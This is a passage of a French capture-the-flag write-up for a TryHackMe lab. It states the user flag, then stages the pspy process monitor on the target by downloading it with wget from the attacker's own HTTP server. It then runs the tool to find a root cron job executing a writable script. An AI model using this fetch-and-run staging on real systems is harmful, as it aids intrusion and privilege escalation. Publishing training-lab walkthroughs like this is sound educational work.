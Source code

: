 Dans le dossier admin on trouve le fichier flag.txt, on le lit et on a le flag.    

La réponse est : flag{0d8486a0c0c42503bb60ac77f4046ed7}    

**What is the root flag?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64 -nv
2021-08-29 23:30:41 URL:https://github-releases.githubusercontent.com/120821432/d54f2200-c51c-11e9-8d82-f178cd27b2cb?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20210829%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20210829T213041Z&X-Amz-Expires=300&X-Amz-Signature=57cb59da83cfab44297996fa258118037f247ac1c45cb39d7dc105d66892667f&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=120821432&response-content-disposition=attachment%3B%20filename%3Dpspy64&response-content-type=application%2Foctet-stream [3078592/3078592] -> "pspy64" [1]

tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

------------------------------

$ cd /tmp
$ wget http://10.9.228.66:8000/pspy64 -nv
2021-08-29 21:32:22 URL:http://10.9.228.66:8000/pspy64 [3078592/3078592] -> "pspy64" [1]
$ chmod +x ./pspy64
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
...
2021/08/29 21:34:01 CMD: UID=0    PID=1905   | bash /var/www/html/tmp/clean.sh 
2021/08/29 21:34:01 CMD: UID=0    PID=1904   | /bin/sh -c cd /var/www/html/tmp && bash /var/www/html/tmp/clean.sh 
2021/08/29 21:34:01 CMD: UID=0    PID=1903   | /usr/sbin/CRON -f 
2021/08/29 21:35:01 CMD: UID=0    PID=1910   | bash /var/www/html/tmp/clean.sh 
2021/08/29 21:35:01 CMD: UID=0    PID=1909   | bash /var/www/html/tmp/clean.sh 
2021/08/29 21:35:01 CMD: UID=0    PID=1908   | /bin/sh -c cd /var/www/html/tmp && bash /var/www/html/tmp/clean.sh 
2021/08/29 21:35:01 CMD: UID=0    PID=1907   | /usr/sbin/CRON -f 

```
